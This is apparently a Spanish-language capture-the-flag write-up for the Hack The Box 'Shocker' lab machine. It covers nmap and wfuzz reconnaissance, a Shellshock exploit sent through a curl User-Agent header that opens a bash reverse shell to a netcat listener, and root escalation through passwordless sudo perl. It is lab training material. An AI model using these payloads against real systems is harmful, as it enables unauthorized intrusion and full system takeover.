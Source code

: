 ![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/shocker.jpg)

## Linux - Easy
IP = 10.10.10.56

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.56 -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/allPorts.jpg)

    nmap 10.10.10.56 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/targeted.jpg)

Detectamos un Apache
Revisamos la pagina web y no vemos nada

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/pagina.jpg)

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 200 --hh=137 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://10.10.10.56/FUZZ/

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/wfuzz.jpg)

Vemos que hay un par de directorios cgi-bin e icons.
Investigamos un poco y vemos que en el directorio cgi-bin se guardan script para que ejecute apache, volvemos a ejeutar wfuzz para que busque dentro de los directorios que encuentre ficheros con varias extensiones posibles. 
-.sh
-.py
-.cgi
-.pl

[](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/extension.jpg)

    wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -w extensions.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/wfuzz2.jpg)

Encontramos user.sh y vemos su contenido.

    curl http://10.10.10.56/cgi-bin/user.sh

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/curl.jpg)

Investigamos sobre exploit apache cgi y encontramos una vulnerabilidad RCE

https://www.exploit-db.com/exploits/34900

y procedemos a explotarla.

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/shellsock.jpg)

vemos que el servidores es vulnerable a shellsock por lo que vamos a crear un remote shell

maquina local 

    nc -lvp 4444

maquina victima 
    
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/remoteshell.jpg)

Vemos que el usuario con el que hemos conectado es shelly, vamos a su home y abrimos user.txt

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/userflag.jpg)

Para la escalada de privilegios ejecutamos sudo -l

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/sudol.jpg)

vemos que podemos ejecutar /usr/bin/perl con root sin password.
Ejecutamos el siguiente comando

    sudo /usr/bin/perl -e 'exec "/bin/sh"'

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/root.jpg)

Entramos en el directorio de root y abrimos la flag

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/rootFlag.jpg)

